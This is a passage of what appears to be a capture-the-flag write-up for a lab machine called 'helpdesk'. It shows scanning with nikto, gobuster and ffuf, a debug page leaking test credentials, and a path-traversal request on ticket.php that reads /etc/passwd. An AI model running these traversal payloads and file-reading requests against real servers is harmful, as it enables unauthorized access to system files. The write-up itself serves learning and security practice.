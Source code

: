 ```bash
+ /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /login.php: Admin login page/section found.
+ /helpdesk/: Directory indexing found.
+ /helpdesk/: This might be interesting.
+ /debug.php: Possible debug directory/program found.
+ 8074 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2025-08-22 11:47:48 (GMT-4) (21 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
notice the directories that were found with `nikto`.  I also run `gobuster` and I got the same directories as the results from `nikto`. 
```bash
200      GET       56l      138w     1290c http://10.9.9.12/
200      GET       56l      138w     1290c http://10.9.9.12/index.php
200      GET       86l      167w     1819c http://10.9.9.12/login.php
301      GET        7l       20w      236c http://10.9.9.12/javascript => http://10.9.9.12/javascript/
301      GET        7l       20w      234c http://10.9.9.12/helpdesk => http://10.9.9.12/helpdesk/
200      GET        5l       28w      204c http://10.9.9.12/ticket.php
302      GET        0l        0w        0c http://10.9.9.12/panel.php => login.php
200      GET        5l       29w      250c http://10.9.9.12/debug.php
```
`debug.php` looks interesting and visiting the page we get credentials that are not usable in all of the machine. It's a rabbit hole 
```bash
kali :: exercises/HMV/helpdesk » curl http://10.9.9.12/debug.php                                                           1 ↵
<style>
body { font-family: monospace; background: #111; color: #0f0; padding: 20px; }
h2 { color: #0ff; }
</style><h2>Debug Mode Enabled</h2><pre>[DEBUG] Connecting to internal dev server...
[DEBUG] Using creds: service_user:SuperSecretDev123!</pre>%
```
Trying to fuzz for parameters in the `debug.php` file has yielded nothing. On to the next page `ticket.php`
```bash
ffuf -u http://10.9.9.12/ticket.php\?FUZZ\=../../../../etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -fw 24

---response---
url                     [Status: 200, Size: 2135, Words: 42, Lines: 41, Duration: 7ms]
```
Finally we got `url` as a parameter to the ticket page. Checking out the output of the command we get the following
```bash
kali :: exercises/HMV/helpdesk » curl http://10.9.9.12/ticket.php\?url\=../../../../etc/passwd
<style>
body { font-family: sans-serif; background: #f0f0f0; padding: 20px; }
pre { background: #fff; padding: 10px; border-left: 4px solid #4A90E2; }
h1 { color: #4A90E2; }
</style><h1>Ticket Viewer</h1><h1>Ticket Viewer</h1><pre>root:x:0:0:root:/root:/bin/bash
<SNIP>
games:x:5:60:games:/usr/games:/usr/sbin/nologin
mrmidnight:x:1000:1000:MrMidnight:/home/mrmidnight:/bin/bash
mysql:x:110:110:MySQL Server,,,:/nonexistent:/bin/false
helpdesk:x:1001:1001::/home/helpdesk:/bin/bash
```
From the output we have three users `root`,`mrmidnight`, and `helpdesk`. Apart from reading the passwd file we can't really read any other file that could give us a foothold. I tried reading the `authorized_keys` from every user's ssh file but nothing came up.
Another way to utilize this is by reading the source codes of the website.
```bash
```